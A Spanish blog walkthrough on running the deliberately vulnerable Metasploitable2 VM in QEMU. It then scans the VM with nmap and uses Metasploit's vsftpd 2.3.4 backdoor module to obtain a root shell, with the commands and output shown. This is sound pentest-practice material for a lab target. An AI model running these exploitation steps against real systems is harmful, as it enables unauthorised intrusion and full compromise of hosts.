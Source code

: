 ```yaml
---
title: Metasploitable2 en Qemu
date: 2025-07-15 19:00:00 +0200
categories: [hacking]
tags: [metasploitable2, qemu]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/9/9f/ARP_Cache_Poisoning.jpg 
    alt: 
---
```


## Descargar 
Metasploitable2 es una de las máquinas que ofrece Rapid7 para realizar prácticas de pentesting. 
La descarga es un fichero zip que contien los ficheros para hacer que la máquina en VirtualBox.Puedes descargar la máquina desde aquí:
[https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download)

Es una máquina Linux con "vulnerabilidades" en [Hacktools/#vulnerable-machines](../hacktools/#vulnerable-machines) puedes encontrar más máquinas y proyectos como este. Incluye varios proyectos web con vulnerabilidades o con versiones vulnerables para practicar todo tipo de pruebas de penetración como TWiki, phpMyAdmin, Mutillidae, DVWA, WebDAV, aparte de las propias vulnerabilidades del sistema que sostienen esas web, la máquina virtual en si misma. 


Instala qemu-utils si no lo tienes:

``` shell
sudo apt install qemu-utils
```

## Conversión a QEMU
Como no me gusta instalar 20 tipos de sistemas de virtualización en mi máquina opté por convertir la imagen VMDK a QCOW2, de otra forma necesitaría instalar VirtualBox, pero podemos sortear este "inconveniente":

``` shell
qemu-img convert -f vmdk -O qcow2 Metasploitable.vmdk metasploitable2.qcow2
```

## Configuración red puente
Crear una conexión puente para poder comunicarnos con esta máquina remplaza **vmbridge** con el nombre de su interface de red puente. Usamos la opción bridge para usar un dispostivo virtual bridge, ver => [bridged-linux](../bridges-linux)

Ahora podemos lanzar la máquina, recuerda que para salir de la ventana en QEMU tenemos esta combinación de teclas "Ctrl + Alt + G" . 

Además hay que modificar el fichro /etc/qemu/bridge.conf si queremos que nuestro Qemu acepte usar ese puente. 

``` shell
allow vmbridge
```

## Metasploitables en QEMU
Lanzamos la imagen así, podemos cambiar los parámetros de memoria pero 2048 parece que es más que suficiente.

``` shell
sudo qemu-system-i386 -hda metasploitable2.qcow2 -m 2048 -net bridge,br=vmbridge
```
Ahora comprueba que tengas conectividad, con la VM, puedes comprobarlo haciendo ping u otra herramienta. 
Por ejemplo el navegador

Primer contacto web:
``` html

                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


    TWiki
    phpMyAdmin
    Mutillidae
    DVWA
    WebDAV
```
## Fase de reconocimiento
Escaneo Nmap:

``` shell
root@office:/home/pablo# nmap -p- -sV 192.168.2.225 -vv
....
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 64 vsftpd 2.3.4
22/tcp    open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp    open  telnet      syn-ack ttl 64 Linux telnetd
25/tcp    open  smtp        syn-ack ttl 64 Postfix smtpd
53/tcp    open  domain      syn-ack ttl 64 ISC BIND 9.4.2
80/tcp    open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp   open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open  exec        syn-ack ttl 64 netkit-rsh rexecd
513/tcp   open  login?      syn-ack ttl 64
514/tcp   open  shell       syn-ack ttl 64 Netkit rshd
1099/tcp  open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
1524/tcp  open  bindshell   syn-ack ttl 64 Metasploitable root shell
2049/tcp  open  nfs         syn-ack ttl 64 2-4 (RPC #100003)
2121/tcp  open  ftp         syn-ack ttl 64 ProFTPD 1.3.1
3306/tcp  open  mysql       syn-ack ttl 64 MySQL 5.0.51a-3ubuntu5
3632/tcp  open  distccd     syn-ack ttl 64 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  syn-ack ttl 64 PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open  vnc         syn-ack ttl 64 VNC (protocol 3.3)
6000/tcp  open  X11         syn-ack ttl 64 (access denied)
6667/tcp  open  irc         syn-ack ttl 64 UnrealIRCd
6697/tcp  open  irc         syn-ack ttl 64 UnrealIRCd
8009/tcp  open  ajp13?      syn-ack ttl 64
8180/tcp  open  unknown     syn-ack ttl 64
8787/tcp  open  drb         syn-ack ttl 64 Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
41015/tcp open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
51073/tcp open  mountd      syn-ack ttl 64 1-3 (RPC #100005)
55206/tcp open  nlockmgr    syn-ack ttl 64 1-4 (RPC #100021)
56510/tcp open  status      syn-ack ttl 64 1 (RPC #100024)

```
Para hacer más rápido un búsqueda de posibles exploits ahora que conocemos los puertos. 

21/tcp    open  ftp         syn-ack ttl 64 vsftpd 2.3.4

## Fase de preparación
``` shell
root@office:/home/pablo# searchsploit vsftpd
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                                                                                                   | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                                                                                                   | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                                                                                                   | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                                                                                                 | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                        | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                           | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                                          | multiple/remote/49719.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Ahora desde Metasploit, podemos buscar el exploit que podríamos utilizar
``` shell
msf6 > search vsft

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                       ing-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 192.168.2.225
rhost => 192.168.2.225
```

## Explotación
Lanzamos el exploit y tenemos root shell. 

``` shell
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.2.225:21 - The port used by the backdoor bind listener is already open
[+] 192.168.2.225:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.122.15:46433 -> 192.168.2.225:6200) at 2025-07-17 14:38:47 -0400

whoami
root

```

Hay varias formas de explotar esta máquina y Internet está lleno de manuales para explotarlas, busca la que más te apetezca o inventate una.
